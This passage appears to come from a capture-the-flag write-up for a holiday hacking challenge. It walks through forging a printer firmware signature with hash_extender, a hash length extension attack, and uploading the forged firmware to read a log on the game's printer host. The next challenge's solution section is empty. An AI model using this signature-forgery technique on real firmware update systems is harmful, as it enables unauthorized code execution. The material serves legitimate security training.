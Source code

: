 Make it executable and save it as the same name as the firmware that's inside the zip (not sure if this is necessary):

```shell
chmod +x firmware.bin
```

Add this file to a new zip:

```shell
zip new.zip firmware.bin
```

Using the `hash_extender` tool (install by [cloning](https://github.com/iagox86/hash_extender) and running make &ndash; **much** easier on Linux), create the new signature and data:

```shell
./hash_extender --file firmware.zip --secret 16 --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 --append `cat test.zip | xxd -ps -c 9999999999` --append-format hex --out-data-format hex
```

Using Cyberchef, take the data as hex and pass it through the recipe "From Hex" to "To Base64" and use that as the `firmware` in the JSON. Make sure to also update the signature. Once you upload the new JSON file, it will run the exploit in the background, so you can navigate to `https://printer.kringlecastle.com/incoming/<dont_make_it_easy_for_others_to_find>.log` and view the file in question:

```
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

The last entry completes the objective.

### 8. Kerberoasting on an Open Fire
#### Difficulty
5/5

#### Description
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints.

#### Solution


### 9. Splunk!
#### Difficulty
3/5
